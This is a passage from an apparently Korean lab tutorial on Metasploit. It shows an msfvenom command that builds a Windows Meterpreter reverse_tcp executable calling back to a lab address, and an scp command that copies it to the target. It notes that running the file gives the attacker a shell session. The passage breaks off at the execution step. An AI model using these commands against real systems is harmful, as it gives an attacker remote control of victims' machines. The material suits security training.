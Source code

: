 
### ✅ 결과

- 위 명령어 실행 시, `payload.exe` 파일이 생성됨.
- 해당 파일이 실행되면 **공격자 시스템과 리버스 연결**이 이루어짐 (Meterpreter 세션 확보).

## 4. 악성코드 생성

![](./img/MSF.img/0001.png)
```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.128 -f exe -o /home/samadal/madal.exe
```
SCP로 Kali에 있는 madal.exe 파일 옮기기
![](./img/MSF.img/0004.png)
```
scp samadal@192.168.10.128:/home/samadal/madal.exe C:\
```
## 5. 악성코드 실행
